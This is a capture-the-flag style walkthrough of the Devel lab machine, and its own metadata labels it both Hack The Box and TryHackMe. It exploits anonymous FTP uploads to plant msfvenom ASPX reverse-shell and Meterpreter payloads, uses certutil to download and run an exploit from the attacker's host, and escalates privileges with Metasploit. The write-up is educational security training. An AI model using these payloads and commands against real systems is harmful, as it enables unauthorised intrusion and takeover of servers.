 ```yaml
---
title: Devel Writeup - Hack The Box
published: 2023-08-20
description: 'A walkthrough of the Devel machine on Hack The Box, covering basic enumeration and exploitation using public exploits.'
image: './cover.jpg'
tags: [HackTheBox, Exploitation, Enumeration]
category: 'HackTheBox'
draft: false
---
```


# TryHackMe Devel Walkthrough – Manual and Metasploit Methods

**Devel** is a beginner-friendly vulnerable machine that highlights risks caused by default configurations. It can be exploited using publicly available tools and basic enumeration.

---

## Nmap Scan

We begin with a basic `nmap` scan to discover open ports and services:

```bash
nmap -sC -sV -p- MACHINE_IP
```

![command](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*WBgz1osSej3wtX3A75LK7g.png)

From the results, we find two key open ports:

* **21 (FTP)** – with anonymous login enabled
* **80 (HTTP)** – hosting a web server

![nmap\_scan](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*mSVM4jP8kZWk0Az3tGfFmw.png)

---

## Step 1: Confirming FTP-HTTP Link

Visit the website on port 80 – a welcome image (`welcome.png`) is displayed.

![saving image](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*DFwiOUqfrPRR82WAAjGxpg.png)

We notice that this file also appears in the FTP directory. This suggests the web server pulls files directly from the FTP root.

![image\_name](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*fNod9gS3wlmIU4i23Fwudw.png)

To confirm, upload a file (`test.txt`) using anonymous FTP, then access it via the browser:

```bash
ftp MACHINE_IP
put test.txt
```

![sending \_ftp](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Ak_UnrNV39IWApGqO18HWA.png)
![Traversing](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*CVvJNBX8QYedfqGfb8iARQ.png)

---

## Step 2: Web Tech Detection

Using Wappalyzer or similar tools, we identify the site runs **Microsoft ASP.NET**.

![wappalyzer](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*nj2optk8WvyWhY_zHRmOSw.png)

After quick research, we confirm `.aspx` is the extension in use:

![google\_search](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*yo2Nc0v8X3mHPKWIr7Oe0Q.png)

---

## Method 1: Manual Exploitation (Netcat)

Generate a reverse shell payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f aspx > rev.aspx
```

![msfvenom\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Kuy1ctiK99Yl9FOucrv7TA.png)

Upload the payload via FTP:

```bash
ftp MACHINE_IP
put rev.aspx
```

![sending\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*wg2etjBDW8lN_QPOPXa8OA.png)

Start a listener:

```bash
nc -lvnp 4444
```

![netcat\_listening](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*OGK6JEvvSSgCQzGHmKkzTA.png)

Execute the payload via browser:

```
http://MACHINE_IP/rev.aspx
```

![rev.aspx](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*WqH8Ikjr2OUCFPgBHTWwtw.png)

We receive a shell as a low-privileged user:

![low\_level\_user](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*tsbsIdTKnRnHrEXOSenz5g.png)

---

## Privilege Escalation (Manual)

Run `systeminfo` to gather system details:

```bash
systeminfo
```

![systeminfo](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*a70dgV4wG9lAlfxEtnyKXw.png)

Search for known exploits using OS version info:

[Search: Windows 7 Enterprise build 7600 x86 exploit](https://www.google.com/search?q=Windows+7+Enterperise+build+7600+x86+exploit)

![exploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*GXdcIu6pBwxCiM8_q6_4-g.png)

Download with `searchsploit`, serve via Python:

```bash
searchsploit -m exploit/windows/local/XXXXXXXX
python3 -m http.server 80
```

![searchsploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*R2VeWKFOw6wW1qpWEwMxQQ.png)
![Python\_sever](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*lyeMCUukG6sm9T49Km9NCw.png)

Download and run from victim using `certutil`:

```bash
certutil -urlcache -f http://YOUR_IP/exploit.exe exploit.exe
exploit.exe
```

![downlaod\_exploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*1x1UCnmP8oXLteJT1nP8eg.png)

---

### Flags

**Flag 1:**
![Flag:1](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*31SwfGdmkH0-IeJpQe7MOA.png)

**Flag 2:**
![Flag:2](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*i86DS3j2sCLr02uUhWZwSA.png)

---

## Method 2: Automated Exploitation (Metasploit)

Generate a Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f aspx > shell.aspx
```

![payload\_creation](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*_xMRB4RpfzZmbhhA_CKn2g.png)

Upload it to the server via FTP:

![sending\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Jlw4_4nI_Z-YprDTcuNSwA.png)

Set up Metasploit multi/handler:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

![exploit\_setting](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*D76KwkvYc5tepQxTiFWxow.png)

Trigger the shell:

```
http://MACHINE_IP/shell.aspx
```

![reverse\_shell](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*thbnALazl5syQKfBGnU6xA.png)

Get Meterpreter access:

![get\_shell](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*_dPxU7-hRRoAggKQj9UbbA.png)

Run post-exploitation module:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![exploit\_suggestor](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*USWEXv66U-FsdfdmqAf4GQ.png)

Exploit with `ms10_015_kitrap0d`:

![exploit\_setting](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*V7N0xKby7SDnL8yojzYM6w.png)

---

### Final Flags

**Flag 1:**
![Flag:1](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*31SwfGdmkH0-IeJpQe7MOA.png)

**Flag 2:**
![Flag:2](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*i86DS3j2sCLr02uUhWZwSA.png)

---

## Conclusion

Devel demonstrates the risk of misconfigured services (FTP, ASP.NET) and how attackers can exploit them with simple privilege escalation techniques. Both manual and Metasploit methods highlight the same vulnerabilities but with different workflows.

